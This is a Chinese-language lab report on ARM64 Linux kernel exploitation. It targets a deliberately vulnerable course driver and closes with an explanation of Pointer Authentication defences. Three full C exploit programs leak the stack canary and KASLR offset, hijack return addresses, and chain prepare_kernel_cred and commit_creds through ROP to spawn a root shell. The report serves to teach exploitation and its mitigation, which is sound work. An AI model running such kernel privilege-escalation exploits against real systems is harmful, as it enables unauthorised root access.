

Linux内核漏洞攻防-ROP攻击与防护¶
1 实验目的¶
- 了解 ARM64 栈的布局，学习 buffer overflow 漏洞的原理与利用方式
- 了解 stack canary 与 KASLR 等抵御 buffer overflow 漏洞的原理，并学会如何绕过这些防护机制
- 学习 return-oriented programming (ROP) 攻击原理，获取 Linux 内核的 root 权限
- 学习 ARMV8.3 PA (Pointer Authentication)原理，了解 Linux 内核如何利用 PA 机制防止 ROP 攻击
2 实验工具¶
- qemu-system-aarch64
- gdb-multiarch
- aarch64-linux-gnu-objdump
- aarch64-linux-gnu-gcc
3 实验准备¶
3.1 实验环境¶
选择在 WSL 中进行实验，对于缺失的环境进行了配置。

3.2 GDB调试内核¶
我们对于start.sh脚本进行修改关闭KASLR机制，来允许gdb进行下断点
#!/usr/bin/env bash
set -euo pipefail
qemu-system-aarch64 -M virt \
-cpu max \
-smp 2 \
-m 512 \
-kernel ./Image \
-nographic \
-append "console=ttyAMA0 root=/dev/ram rdinit=/sbin/init nokaslr" \
-initrd ./rootfs.cpio.gz \
-fsdev local,security_model=passthrough,id=fsdev0,path=./share \
-device virtio-9p-pci,id=fs0,fsdev=fsdev0,mount_tag=hostshare \
-s
运行脚本并在另一个shell进行连接开启gdb调试，随后打开KASLR进行后续实验

4 实验任务¶
4.1 Task1: 绕过 stack canary 和 KASLR¶
我们找到存在漏洞的zjubof_write4函数，核心漏洞代码我们用加粗标记
ssize_t zjubof_write4(char *buffer,size_t len)
{
struct cmd_struct cmd;
printk("zjubof_write4\n");
memset(cmd.command, 0, 16);
cmd.length = len;
if(cmd.length > 16)
cmd.length = 16;
**memcpy(cmd.command, buffer, len);
memcpy(prev_cmd,cmd.command, cmd.length);**
printk("cmd :%s len:%ld\n", cmd.command,len);
return 0;
}
在第一个memcpy处，由于使用了原始的len，我们提供的超过限制长度的内容会被一并写入cmd.command，我们可以伪造额外的8字节输入来修改cmd结构体中相邻的cmd.length的值，这儿我们伪造了一个16字节A+小段序48的payload来覆写该值
memset(payload, 'A', sizeof(payload));
memcpy(payload + 16, &forged_len, sizeof(forged_len));
n = write(fd, payload, sizeof(payload));
那么随后在第二个memcpy的位置，由于cmd.length已经被我们成功改写，此时cmd上方栈内容就会被我们一并带出保存到全局变量prev_cmd中，随后我们再通过读接口读回prev_cmd即可完成信息泄露，其中stack canary位于24-31字节处，lr位于40-47字节处
memset(leak, 0, sizeof(leak));
n = read(fd, leak, sizeof(leak));
canary = load_u64(leak + 24);
saved_lr = load_u64(leak + 40);
为了获取上述lr对应的链接地址，我们执行aarch64-linux-gnu-objdump --disassemble=zjubof_write2 vmlinux 反汇编zjubof_write2函数，找到其中bl指令，那么返回地址即为该条指令的pc+4也就是0xffff800010de7d0c，进行相减即得到KASLR偏移值

#define ZJUBOF_WRITE2_RET_LINK_ADDR 0xffff800010de7d0cULL
kaslr_off = saved_lr - ZJUBOF_WRITE2_RET_LINK_ADDR;
printf("[+] canary : 0x%016llx\n", (unsigned long long)canary);
printf("[+] saved lr : 0x%016llx\n", (unsigned long long)saved_lr);
printf("[+] KASLR off: 0x%016llx\n", (unsigned long long)kaslr_off);
成功实现攻击结果如下，附上完整的攻击代码task1.c

#include <errno.h>
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#define DEV_PATH "/dev/zjubof"
#define LEAK_SIZE 48
/*
* This is the link-time return address right after:
* bl zjubof_write3
* in zjubof_write2.
*/
#define ZJUBOF_WRITE2_RET_LINK_ADDR 0xffff800010de7d0cULL
static uint64_t load_u64(const unsigned char *p) {
uint64_t v = 0;
memcpy(&v, p, sizeof(v));
return v;
}
int main(void) {
int fd;
unsigned char payload[24];
unsigned char leak[LEAK_SIZE];
uint64_t forged_len = LEAK_SIZE;
uint64_t canary;
uint64_t saved_lr;
uint64_t kaslr_off;
ssize_t n;
fd = open(DEV_PATH, O_RDWR);
if (fd < 0) {
perror("open /dev/zjubof failed");
return 1;
}
memset(payload, 'A', sizeof(payload));
memcpy(payload + 16, &forged_len, sizeof(forged_len));
n = write(fd, payload, sizeof(payload));
if (n < 0) {
perror("write failed");
close(fd);
return 1;
}
memset(leak, 0, sizeof(leak));
n = read(fd, leak, sizeof(leak));
if (n < 0) {
perror("read failed");
close(fd);
return 1;
}
/*
* NOTE:
* This driver returns copy_to_user()'s return value, not bytes read.
* So successful read usually returns 0, while data is still copied out.
*/
if (n != 0 && n != LEAK_SIZE) {
fprintf(stderr, "unexpected read return: %zd\n", n);
close(fd);
return 1;
}
/*
* Stack layout in zjubof_write4 leak window:
* leak[24..31] -> stack canary (sp + 0x48)
* leak[40..47] -> saved lr (sp + 0x58, from caller frame)
*/
canary = load_u64(leak + 24);
saved_lr = load_u64(leak + 40);
kaslr_off = saved_lr - ZJUBOF_WRITE2_RET_LINK_ADDR;
printf("[+] canary : 0x%016llx\n", (unsigned long long)canary);
printf("[+] saved lr : 0x%016llx\n", (unsigned long long)saved_lr);
printf("[+] KASLR off: 0x%016llx\n", (unsigned long long)kaslr_off);
close(fd);
return 0;
}
4.2 Task2: 修改 return address，获取 root 权限¶
在Task1的基础上，我们的，我们首先获得额外的两个需要的值，其一是first_level_gadget的第一行地址，执行和上述相似的指令aarch64-linux-gnu-objdump --disassemble=first_level_gadget vmlinux 找到第一行0xffff8000107abd78，我们需要它的下一条指令地址0xffff8000107abd7c（跳过原因在思考题中给出）

第二个值是zju_write2的正常返回地址，我们运行aarch64-linux-gnu-objdump --disassemble=zjubof_write vmlinux 可以查到，为bl指令的下一条指令pc 0xffff8000107abe54，我们定义相应的宏变量，并通过获取到的KASLR计算实际运行时的地址

#define ZJUBOF_WRITE2_RET_LINK_ADDR 0xffff800010de7d0cULL
#define FIRST_LEVEL_GADGET_ENTRY_LINK 0xffff8000107abd7cULL /* skip prologue */
#define ZJUBOF_WRITE_RET_AFTER_CALL_LINK 0xffff8000107abe54ULL
kaslr_off = saved_lr - ZJUBOF_WRITE2_RET_LINK_ADDR;
gadget_entry = FIRST_LEVEL_GADGET_ENTRY_LINK + kaslr_off;
zjubof_write_ret = ZJUBOF_WRITE_RET_AFTER_CALL_LINK + kaslr_off;
随后即可开始我们的覆写操作，我们需要覆盖以下内容，第一阶段覆盖的cmd.length(如果填充为字符很可能导致段错误)，canary（保持不变以通过校验），zjubof_write3的返回地址（返回到first_level_gadget函数），zjubof_write2的返回地址（正常返回到zjubof_write来实现控制流闭环），这里我们还需要对栈上的相对位置进行一个计算，我们分析反汇编出的代码(截取了关键段落)
ffff800010de7cb4 <zjubof_write2>:
ffff800010de7cb4: d10883ff sub sp, sp, #0x220
ffff800010de7cb8: d2803c02 mov x2, #0x1e0 // #480
ffff800010de7cbc: a9007bfd stp x29, x30, [sp]
ffff800010de7cc0: 910003fd mov x29, sp
ffff800010de7c78 <zjubof_write3>:
ffff800010de7c78: a9be7bfd stp x29, x30, [sp, #-32]!
ffff800010de7c7c: 910003fd mov x29, sp
ffff800010de7c80: a90153f3 stp x19, x20, [sp, #16]
ffff800010de7bc8 <zjubof_write4>:
ffff800010de7bc8: a9bb7bfd stp x29, x30, [sp, #-80]!
ffff800010de7bcc: 910003fd mov x29, sp
ffff800010de7bd0: a90153f3 stp x19, x20, [sp, #16]
ffff800010de7bfc: 9100c3e0 add x0, sp, #0x30
如上，sp3=sp2-32，sp4=sp3-80⇒sp2=sp4+112，sp3=sp4+80⇒lr2=(sp2+8)=(sp4+120)，lr3=(sp3+8)=(sp4+88)
我们的buffer基址为sp4+48(0x30)，那么这两个需要覆写的地址分别位于40-47字节和72-79字节完成的覆写代码如下
memset(exp, 'B', sizeof(exp));
/* Keep cmd.length sane after overflow, avoid crashing in memcpy(prev_cmd, ...) */
store_u64(exp + 16, 16);
store_u64(exp + 24, canary);
store_u64(exp + 40, gadget_entry);
store_u64(exp + 72, zjubof_write_ret);
运行代码，可以看到运行后成功完成提权获得root权限（$变为#）

此时可以读取/root/flag.txt 来获取flag为sysde655sEc ，给出攻击的完整代码task2.c

#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define DEV_PATH "/dev/zjubof"
#define LEAK_SIZE 48
/* Link-time addresses from vmlinux */
#define ZJUBOF_WRITE2_RET_LINK_ADDR 0xffff800010de7d0cULL
#define FIRST_LEVEL_GADGET_ENTRY_LINK 0xffff8000107abd7cULL /* skip prologue */
#define ZJUBOF_WRITE_RET_AFTER_CALL_LINK 0xffff8000107abe54ULL
static uint64_t load_u64(const unsigned char *p) {
uint64_t v = 0;
memcpy(&v, p, sizeof(v));
return v;
}
static void store_u64(unsigned char *p, uint64_t v) {
memcpy(p, &v, sizeof(v));
}
int main(void) {
int fd;
ssize_t n;
unsigned char leak_payload[24];
unsigned char leak_buf[LEAK_SIZE];
unsigned char exp[104];
uint64_t forged_len = LEAK_SIZE;
uint64_t canary;
uint64_t saved_lr;
uint64_t kaslr_off;
uint64_t gadget_entry;
uint64_t zjubof_write_ret;
fd = open(DEV_PATH, O_RDWR);
if (fd < 0) {
perror("open");
return 1;
}
/* Stage 1: leak canary + saved lr */
memset(leak_payload, 'A', sizeof(leak_payload));
store_u64(leak_payload + 16, forged_len);
n = write(fd, leak_payload, sizeof(leak_payload));
if (n < 0) {
perror("leak write");
close(fd);
return 1;
}
memset(leak_buf, 0, sizeof(leak_buf));
n = read(fd, leak_buf, sizeof(leak_buf));
if (n < 0) {
perror("leak read");
close(fd);
return 1;
}
canary = load_u64(leak_buf + 24);
saved_lr = load_u64(leak_buf + 40);
kaslr_off = saved_lr - ZJUBOF_WRITE2_RET_LINK_ADDR;
gadget_entry = FIRST_LEVEL_GADGET_ENTRY_LINK + kaslr_off;
zjubof_write_ret = ZJUBOF_WRITE_RET_AFTER_CALL_LINK + kaslr_off;
printf("[+] canary : 0x%016llx\n", (unsigned long long)canary);
printf("[+] saved lr : 0x%016llx\n", (unsigned long long)saved_lr);
printf("[+] KASLR off : 0x%016llx\n", (unsigned long long)kaslr_off);
printf("[+] gadget entry: 0x%016llx\n", (unsigned long long)gadget_entry);
printf("[+] write ret : 0x%016llx\n", (unsigned long long)zjubof_write_ret);
/*
* Stage 2 payload layout relative to zjubof_write4::cmd.command:
* +0x18: zjubof_write4 canary
* +0x28: zjubof_write3 saved lr -> first_level_gadget+4
* +0x48: zjubof_write2 saved lr -> zjubof_write+0x8c
*/
memset(exp, 'B', sizeof(exp));
/* Keep cmd.length sane after overflow, avoid crashing in memcpy(prev_cmd, ...) */
store_u64(exp + 16, 16);
store_u64(exp + 24, canary);
store_u64(exp + 40, gadget_entry);
store_u64(exp + 72, zjubof_write_ret);
n = write(fd, exp, sizeof(exp));
if (n < 0) {
perror("exploit write");
close(fd);
return 1;
}
printf("[+] write returned, uid=%d\n", getuid());
system("/bin/sh");
close(fd);
return 0;
}
4.3 Task3: ROP 获取 root 权限¶
攻击的思路是进行多段ROP，思路是类似的但是需要正确计算多个函数的返回地址位置。首先，我们在之前已获得参数的基础上找新需要的参数，这里直接给出了


我们新获取的参数以及相应实际运行地址计算如下
#define ZJUBOF_WRITE2_RET_LINK_ADDR 0xffff800010de7d0cULL
#define PREPARE_KERNEL_CRED_LINK 0xffff8000100a6210ULL
#define COMMIT_CREDS_LINK 0xffff8000100a5f68ULL
#define SECOND_LEVEL_GADGET_LINK 0xffff8000107abdb0ULL
#define ZJUBOF_WRITE_RET_AFTER_CALL_LINK 0xffff8000107abe54ULL
prepare_entry = PREPARE_KERNEL_CRED_LINK + kaslr_off + 4;
commit_entry = COMMIT_CREDS_LINK + kaslr_off + 4;
second_gadget = SECOND_LEVEL_GADGET_LINK + kaslr_off;
write_ret = ZJUBOF_WRITE_RET_AFTER_CALL_LINK + kaslr_off;
随后我们构造payload，这儿对新增的栈上返回地址计算做一下说明，根据task2我们已经获得了lr3与lr2的位置，我们还需要zjubof_write的lr和（我们理一下我们的ROP顺序，首先替换（sp3+8）=（buffer+40），sp回到sp2处，zjubof_write3返回进入prepare_kernel_cred；以（sp2+8）=（buffer+72）作为返回地址，sp回到sp2+32处，随后返回进入commit_creds；以（sp+8）=（sp2+40）=（buffer+104）作为返回地址，sp回到sp+48=sp2+80处，随后返回进入second_level_gadget；以（sp+8）=（sp2+88）=（buffer+152）作为返回地址，sp回到sp+0x220处
ffff8000100a6210 <prepare_kernel_cred>:
ffff8000100a63ac: a94153f3 ldp x19, x20, [sp, #16]
ffff8000100a63b0: a8c27bfd ldp x29, x30, [sp], #32
ffff8000100a63b4: d65f03c0 ret
ffff8000100a5f68 <commit_creds>:
ffff8000100a61cc: a94153f3 ldp x19, x20, [sp, #16]
ffff8000100a61d0: f94013f5 ldr x21, [sp, #32]
ffff8000100a61d4: a8c37bfd ldp x29, x30, [sp], #48
ffff8000100a61d8: d65f03c0 ret
那么我们需要在40-47字节填充prepare_entry，72-79字节填充commit_entry，104-111字节填充second_gadget_entry，152-159字节填充write_ret，编写代码如下
memset(exp, 'C', sizeof(exp));
store_u64(exp + 16, 16); /* keep memcpy length sane */
store_u64(exp + 24, canary); /* bypass stack canary check */
store_u64(exp + 40, prepare_entry); /* z3 ret -> prepare+4 */
store_u64(exp + 72, commit_entry); /* prepare ret -> commit+4 */
store_u64(exp + 104, second_gadget);/* commit ret -> second_level_gadget */
store_u64(exp + 152, write_ret); /* second gadget ret -> zjubof_write+0x8c */
运行并成功获取root权限，在root权限下查看flag内容

完整的多跳ROP代码task3.c如下
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define DEV_PATH "/dev/zjubof"
#define LEAK_SIZE 48
/* Link-time addresses from vmlinux */
#define ZJUBOF_WRITE2_RET_LINK_ADDR 0xffff800010de7d0cULL
#define PREPARE_KERNEL_CRED_LINK 0xffff8000100a6210ULL
#define COMMIT_CREDS_LINK 0xffff8000100a5f68ULL
#define SECOND_LEVEL_GADGET_LINK 0xffff8000107abdb0ULL
#define ZJUBOF_WRITE_RET_AFTER_CALL_LINK 0xffff8000107abe54ULL
static uint64_t load_u64(const unsigned char *p) {
uint64_t v = 0;
memcpy(&v, p, sizeof(v));
return v;
}
static void store_u64(unsigned char *p, uint64_t v) {
memcpy(p, &v, sizeof(v));
}
int main(void) {
int fd;
ssize_t n;
unsigned char leak_payload[24];
unsigned char leak_buf[LEAK_SIZE];
unsigned char exp[176];
uint64_t forged_len = LEAK_SIZE;
uint64_t canary;
uint64_t saved_lr;
uint64_t kaslr_off;
uint64_t prepare_entry;
uint64_t commit_entry;
uint64_t second_gadget;
uint64_t write_ret;
fd = open(DEV_PATH, O_RDWR);
if (fd < 0) {
perror("open");
return 1;
}
/* Stage 1: leak canary + saved lr */
memset(leak_payload, 'A', sizeof(leak_payload));
store_u64(leak_payload + 16, forged_len);
n = write(fd, leak_payload, sizeof(leak_payload));
if (n < 0) {
perror("leak write");
close(fd);
return 1;
}
memset(leak_buf, 0, sizeof(leak_buf));
n = read(fd, leak_buf, sizeof(leak_buf));
if (n < 0) {
perror("leak read");
close(fd);
return 1;
}
canary = load_u64(leak_buf + 24);
saved_lr = load_u64(leak_buf + 40);
kaslr_off = saved_lr - ZJUBOF_WRITE2_RET_LINK_ADDR;
/*
* Use +4 entries to avoid the first stp prologue instruction
* when these functions are entered via ret (not bl).
*/
prepare_entry = PREPARE_KERNEL_CRED_LINK + kaslr_off + 4;
commit_entry = COMMIT_CREDS_LINK + kaslr_off + 4;
second_gadget = SECOND_LEVEL_GADGET_LINK + kaslr_off;
write_ret = ZJUBOF_WRITE_RET_AFTER_CALL_LINK + kaslr_off;
printf("[+] canary : 0x%016llx\n", (unsigned long long)canary);
printf("[+] saved lr : 0x%016llx\n", (unsigned long long)saved_lr);
printf("[+] KASLR off : 0x%016llx\n", (unsigned long long)kaslr_off);
printf("[+] prepare+4 : 0x%016llx\n", (unsigned long long)prepare_entry);
printf("[+] commit+4 : 0x%016llx\n", (unsigned long long)commit_entry);
printf("[+] second gadget: 0x%016llx\n", (unsigned long long)second_gadget);
printf("[+] write ret : 0x%016llx\n", (unsigned long long)write_ret);
/*
* Overflow base is zjubof_write4::cmd.command (sp + 0x30).
*
* Key offsets:
* +0x10: zjubof_write4 cmd.length
* +0x18: zjubof_write4 canary
* +0x28: zjubof_write3 saved lr (first ret target)
*
* zjubof_write2 frame starts at +0x40:
* +0x48: used as return slot for prepare (+8 in z2 frame)
* +0x68: used as return slot for commit (+40 in z2 frame)
* +0x98: used as return slot for second_level (+88 in z2 frame)
*/
memset(exp, 'C', sizeof(exp));
store_u64(exp + 16, 16); /* keep memcpy length sane */
store_u64(exp + 24, canary); /* bypass stack canary check */
store_u64(exp + 40, prepare_entry); /* z3 ret -> prepare+4 */
store_u64(exp + 72, commit_entry); /* prepare ret -> commit+4 */
store_u64(exp + 104, second_gadget);/* commit ret -> second_level_gadget */
store_u64(exp + 152, write_ret); /* second gadget ret -> zjubof_write+0x8c */
n = write(fd, exp, sizeof(exp));
if (n < 0) {
perror("exploit write");
close(fd);
return 1;
}
printf("[+] write returned, uid=%d\n", getuid());
system("/bin/sh");
close(fd);
return 0;
}
4.4 Task4: Linux 内核对 ROP 攻击的防护¶
我们先查看zjubof_write3函数在PA支持开启前的效果，可以看到函数结尾应该是普通ret

ffff800010de7c78 <zjubof_write3>:
ffff800010de7c78: a9be7bfd stp x29, x30, [sp, #-32]!
ffff800010de7c7c: 910003fd mov x29, sp
ffff800010de7c80: a90153f3 stp x19, x20, [sp, #16]
ffff800010de7c84: aa0003f3 mov x19, x0
ffff800010de7c88: aa0103f4 mov x20, x1
ffff800010de7c8c: d0003720 adrp x0, ffff8000114cd000 <kallsyms_token_index+0xd75d0>
ffff800010de7c90: 91094000 add x0, x0, #0x250
ffff800010de7c94: 97ffe4de bl ffff800010de100c <_printk>
ffff800010de7c98: aa1403e1 mov x1, x20
ffff800010de7c9c: aa1303e0 mov x0, x19
ffff800010de7ca0: 97ffffca bl ffff800010de7bc8 <zjubof_write4>
ffff800010de7ca4: d2800000 mov x0, #0x0 // #0
ffff800010de7ca8: a94153f3 ldp x19, x20, [sp, #16]
ffff800010de7cac: a8c27bfd ldp x29, x30, [sp], #32
ffff800010de7cb0: d65f03c0 ret
随后我们开启PA支持并重新编译内核，对于该函数的汇编结果如下
0000000000000150 <zjubof_write3>:
150: d503245f bti c
154: d503233f paciasp
158: a9be7bfd stp x29, x30, [sp, #-32]!
15c: 910003fd mov x29, sp
160: a90153f3 stp x19, x20, [sp, #16]
164: aa0003f3 mov x19, x0
168: aa0103f4 mov x20, x1
16c: 90000000 adrp x0, 0 <zjubof_release>
170: 91000000 add x0, x0, #0x0
174: 94000000 bl 0 <_printk>
178: aa1403e1 mov x1, x20
17c: aa1303e0 mov x0, x19
180: 94000000 bl 94 <zjubof_write4>
184: d2800000 mov x0, #0x0 // #0
188: a94153f3 ldp x19, x20, [sp, #16]
18c: a8c27bfd ldp x29, x30, [sp], #32
190: d50323bf autiasp
194: d65f03c0 ret
我们对于汇编结果保留指令序列进行diff比较，效果如下

我们对于重点的代码变化做出解释（不考虑地址字段变化）
- 新增
bti c：这是 BTI（Branch Target Identification）落点标记，约束间接跳转目标是否合法，减少任意落点 gadget 利用空间 - 新增
paciasp（函数入口）：用当前SP和密钥给LR做 PAC 签名。 - 新增
autiasp（函数返回前）：在ret前对LR做认证；若返回地址被篡改则认证失败，无法按攻击者预期返回。
PA机制阻断ROP攻击的完整原因在思考题中给出
5 思考题¶
-
为什么linux canary的最低位byte总是
\00？因为字符串函数一般遇到\x00就会停止，canary这样设置可以保证打印到低位时就被截断，从而高位内容无法被打印而不会泄露
-
在ARM64的ROP中，在
zjubof_write4中overflow覆盖到的返回地址，会在什么时候/执行到哪个函数哪一行的时候 被load到pc寄存器？zjubof_write3执行ret时，pc寄存器load x30存储的返回地址
-
在Task2中，为什么在exp中直接覆盖返回地址为
first_level_gadget的汇编第一行地址，会造成kernel在运行到这一行的时候产生panic？并写出造成这个panic的触发链。因为第一行是
stp x29, x30, [sp, #-16]!为prologue，会修改栈的布局，如果从第一行进入，sp先被额外减了16，后续的内联汇编就会从错误偏移处取值并ret到非法地址，触发内核异常触发链如下：
zjubof_write4溢出覆盖zjubof_write3保存的返回地址zjubof_write3末尾ret跳到 `first_level_gadget``第一行- 第一行
stp ... [sp,#-16]!破坏原本预期的栈对齐/偏移 - gadget 后续按“错误栈位置”恢复寄存器与返回地址
ret跳转到无效地址 -> 内核 panic
-
Linux 内核是如何利用 ARM PA 来防御 ROP 攻击的
ROP 攻击本质上依赖篡改栈上的返回地址（LR），使控制流跳转到攻击者布置的 gadget 链；PA 机制将返回地址完整性绑定到硬件密钥与上下文（如 SP）：在函数进入时，
paciasp对 LR 生成 PAC 签名并写回；函数返回前，autiasp使用同一上下文验证签名；若 LR 被攻击者覆盖，签名不匹配，认证失败，返回地址不可被正常利用，控制流劫持中断。因此，即使漏洞仍可覆盖栈内容，攻击者也难以构造“可通过认证”的伪造返回地址，传统 ROP 链会失效或触发异常。